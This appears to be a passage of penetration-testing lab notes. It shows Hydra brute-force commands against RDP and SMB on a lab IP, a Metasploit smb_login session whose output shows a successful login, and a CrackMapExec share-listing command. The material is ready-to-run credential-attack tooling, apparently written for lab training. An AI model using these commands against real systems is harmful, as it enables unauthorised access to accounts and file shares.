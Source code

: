 ```
hydra -L user.list -P password.list rdp://10.129.42.197
```


## Hydra - SMB

Used to brute force SMB

```
hydra -L user.list -P password.list smb://10.129.42.197
```

If you get the following error:
```
[ERROR] invalid reply from target smb://10.129.42.197:445/
```
This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile hydra or use another very powerful tool, the Metasploit framework.

```
msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

...

msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Then use CrackMapExec to view shares
```
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```
